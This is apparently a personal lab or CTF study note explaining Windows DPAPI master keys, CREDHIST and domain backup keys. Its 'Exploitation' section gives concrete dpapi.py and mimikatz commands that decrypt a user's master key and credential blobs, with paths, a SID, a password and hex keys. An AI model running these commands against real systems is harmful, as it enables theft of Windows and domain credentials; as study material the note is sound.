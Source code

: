 # Windows Data Protection API

DPAPI (Data Protection Application Programming Interface) is a simple cryptographic application programming interface available as a built-in component in Windows 2000 and later versions of Microsoft Windows operating systems. 

- This API is meant to be the standard way to store encrypted data on a computer’s disk that is running a Windows operating system. 
- DPAPI provides an easy set of APIs to easily encrypt “CryptProtectData()” and decrypt “CryptUnprotectData()” opaque data “blobs” using keys tied to a specific user or the system.
- This allows applications to protect user data without having to worry about things such as key management. 
- DPAPI is used by many popular applications including Internet Explorer, Google Chrome and Skype to encrypt their passwords. 
- It is also used by Windows itself to store sensitive information such as Encrypting File System keys and WiFi Passwords (WEP and WPA)

# Master Key

A user's Master Key is a file which is used for encrypting and decrypting DPAPI blobs. Since the Master Key encrypts a user's sensitive data, the master key itself requires serious protection. 

- To protect the Master key, Microsoft used the User's password for encrypting and protecting the Master Key. 
- Every Master Key has a unique name (GUID). 
- Each DPAPI blob stores that unique identifier. 
- In other words, the Master Key’s GUID is the key's "link" to the DPAPI blob. 

#### **For User Profiles:**

```
C:\Users\<Username>\AppData\Roaming\Microsoft\Protect\<SID>\<GUID>
```

- `<SID>` = Security Identifier (e.g., `S-1-5-21-...`)
- `<GUID>` = Unique identifier for the Master Key (e.g., `{4B9F5A57-...}`)
#### **For SYSTEM (Machine-Wide DPAPI):**

```
C:\Windows\System32\Microsoft\Protect\<SID>\<GUID>
```
- Used for services/system processes (e.g., Wi-Fi passwords stored for "All Users").

![](./assets/Pasted%20image%2020250726140912.png)


# CREDHIST

The Master Key is dependent on the user’s password, we need to know the user's password. However, what happens if the user changes his password? Here comes the purpose of DPAPI Credential History (CREDHIST) which is used to store all previous user’s passwords. 

- This file is also encrypted with the user's current password and saved in a stack structure. 
- Whenever the operating system tries to decrypt a Master Key, it uses the user’s current password, to decrypt the first entry in the CREDHIST. 
- The decrypted CREDHIST entry (user's password) is then used to decrypt the required Master Key, and if it fails.
- it proceeds to decrypt the second entry in CREDHIST (older user password) and uses its output to try to decrypt the Master Key until the correct CREDHIST entry that successfully decrypts the Master Key is found.

![](./assets/Pasted%20image%2020250726140955.png)


# Domain Backup key
When DPAPI is used in an Active Directory domain environment, a copy of user’s master key is encrypted with a so-called DPAPI Domain Backup Key that is known to all domain controllers. 

- Windows Server 2000 DCs use a symmetric Backup key and newer systems use a public/private Backup key pair. 
- If the user password is reset or user forgets the password, the original master key is inaccessible to the user, the user’s access to the master key is automatically restored using the backup key.

In Domain Joined Systems, the master key is encrypted with user's password as well as the domain backup key.

# Exploitation

### Using User Password:

1. Locating and downloading jack's master key `C:\Users\Jack\AppData\Roaming\Microsoft\Protect\S-1-5-21-3452661742-3064033514-3733150770-1120\dddec067-bb39-4589-a594-618a26fcd241`

its giving this error `Error: Download failed. Check filenames or paths: uninitialized constant WinRM::FS::FileManager::EstandardError` but still the file gets downloaded

![](./assets/Pasted%20image%2020250727203747.png)


2. Decrypting jack's master key with his password

```
dpapi.py masterkey -file dddec067-bb39-4589-a594-618a26fcd241 -password 'partylikear0ckst*r' -sid S-1-5-21-3452661742-3064033514-3733150770-1120 
```

![](./assets/Pasted%20image%2020250727203848.png)

3. Enumerating and downloading DPAPI blobs of user jack 

![](./assets/Pasted%20image%2020250727204036.png)

4. Decrypting the BLOB

```
dpapi.py credential -key 0x8ef09cd6577395e0a1fee1c401cbbed5cea53e455258d1d0b932964f15f79584a6d4184e81ad75a6018a627234e8d5704baac4fee8f428d2442e1cf89f8a9a7e -file B5D7FE4D2E688792FEF49AB57F10608E
```

![](./assets/Pasted%20image%2020250727204518.png)

5. Decrypted, got a username and password )).

### Using Domain Backup key (without knowing jack's password)


1. Decrypting  jack's master key using the domain backup key by invoking **MS-BKRP** (BackupKey Remote Protocol) 

```
mimikatz # dpapi::masterkey /in:C:\Users\Jack\AppData\Roaming\Microsoft\Protect\S-1-5-21-3452661742-3064033514-3733150770-1120\dddec067-bb39-4589-a594-618a26fcd241 /rpc
```

![](./assets/Pasted%20image%2020250727205218.png)

2. We got jack's master key
3. Decrypting jack's dpapi blob

```
dpapi::cred /in:C:\Users\Jack\AppData\Roaming\Microsoft\Credentials\B5D7FE4D2E688792FEF49AB57F10608E -key 8ef09cd6577395e0a1fee1c401cbbed5cea53e455258d1d0b932964f15f79584a6d4184e81ad75a6018a627234e8d5704baac4fee8f428d2442e1cf89f8a9a7e
```

![](./assets/Pasted%20image%2020250727210005.png
)

4. blob decrypted, we got a username and password)).

